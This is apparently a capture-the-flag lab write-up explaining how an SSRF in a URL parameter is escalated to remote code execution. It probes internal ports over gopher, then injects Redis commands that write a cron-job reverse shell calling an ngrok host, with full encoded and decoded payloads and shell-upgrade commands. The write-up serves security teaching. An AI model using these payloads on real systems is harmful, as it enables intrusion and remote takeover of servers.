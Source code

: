 ```yaml
---
layout: default
title: Server-Side-Request-Forgery
---
```


Here we need to exploit `SSRF` to achieve `RCE`, and then get the flag.

First, i saw there is `SSRF` in the `url` parameter, when giving `http://www.google.com` we're getting `google.com`.

So, I used Caido to watch all open ports in the internal network, the payload is `gopher://127.0.0.1:{port}/`.
I'm using `gopher` and not `http`, because we can send using this protocol much larger requests, and not only `http` requests.

![Caido](./images/Server-Side-Request-Forgery_caido.png)

As you can see, the open ports are:
*  port 22 (ssh):
> SSH-2.0-OpenSSH_7.4
Protocol mismatch.

* port 25 (smtp):
> 220 ssrf-box.localdomain ESMTP Postfix
502 5.5.2 Error: command not recognized
421 4.4.2 ssrf-box.localdomain Error: timeout exceeded

* port 80 (http):
> HTTP/1.1 400 Bad Request
Date: Wed, 20 Aug 2025 07:30:45 GMT
Server: Apache/2.4.6 (CentOS) PHP/5.4.16
Content-Length: 226
Connection: close
Content-Type: text/html; charset=iso-8859-1

* port 6379 (redis):
> 


This paper [SSRF to RCE via redis using gopher protocol](https://medium.com/@zoningxtr/ssrf-to-rce-via-redis-using-gopher-protocol-7409b1d97dcd) guide us what to do in such a case.

In this case, we want to use the `redis` to write reverse shell to the cron job, something like this:
```
FLUSHALL SET 1 "\n\n* * * * * bash -i >& /dev/tcp/attacker-ip/4444 0>&1\n\n" CONFIG SET dir /var/spool/cron/crontabs CONFIG SET dbfilename root SAVE
```

we use the `gopher` protocol that let us using raw `TCP` requests, and by this way we can send valid `redis` request.

In order to check that the `gopher` is working, we can send this payload:
```
gopher://127.0.0.1:6379/_PING
```
It might take time, but at the end we should get `PONG` back :)

we uses [Gopherus](https://github.com/tarunkant/Gopherus) to build our reverse shell:

![Gopherus](./images/Server-Side-Request-Forgery_Gopherus.png)

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/7.tcp.eu.ngrok.io/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

After URL decoding, that's what we get:
```
gopher://127.0.0.1:6379/_*1
$8
flushall
*3
$3
set
$1
1
$72


*/1 * * * * bash -c "sh -i >& /dev/tcp/7.tcp.eu.ngrok.io/1234 0>&1"



*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
```
We use the `ngrok` tunnel, and set up a listener, so we need to change the port from `1234` to `10968`.

![ngrok tunnel](./images/Server-Side-Request-Forgery_ngrok.png)

now, just send the payload:
```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/7.tcp.eu.ngrok.io/10968%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

Notice that if you send it using burp, you need to url encode it of course.

As you can see, we got connection!
![rev shell](./images/Server-Side-Request-Forgery_ncat_rev_shell.png)

First, i paste those commands:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 116
```

Then, we run `ls`, find `flag-open-me.txt`, and read it using `cat flag-open-me.txt`
![FINAL](./images/Server-Side-Request-Forgery_FINAL.png)


**Flag:** ***`SSRF_PwNiNg_v1@_GoPh3r_1s_$o_c00l!`***
